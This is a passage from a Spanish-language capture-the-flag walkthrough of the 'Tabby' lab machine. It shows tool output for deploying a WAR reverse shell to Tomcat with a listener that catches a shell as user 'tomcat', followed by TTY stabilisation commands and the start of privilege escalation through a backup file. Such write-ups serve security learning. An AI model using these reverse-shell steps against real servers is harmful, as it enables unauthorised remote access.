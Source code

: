 ```
[+] Login Successful!

[+] Generating WAR Reverse Shell...
Payload size: 1094 bytes
Final size of war file: 1094 bytes

[!] Uploading WAR File...
OK - Deployed application at context path [/revshell]

[!] Triggering Reverse Shell...

[+] Starting Listener...
listening on [any] 8090 ...
connect to [10.10.16.23] from megahosting.htb [10.129.182.100] 58122
whoami
tomcat
```

Una vez en la máquina víctima vamos a realizar un `tratamiento` a la `TTY`, lo primero es `obtener` las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```

## Privilege Escalation

He encontrado un `backup` cuyo `propietario` es `ash`

```
tomcat@tabby:/var/www/html/files$ ls -la
total 36
drwxr-xr-x 4 ash  ash  4096 Aug 19  2021 .
drwxr-xr-x 4 root root 4096 Aug 19  2021 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16  2020 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Aug 19  2021 archive
drwxr-xr-x 2 root root 4096 Aug 19  2021 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16  2020 statement
```
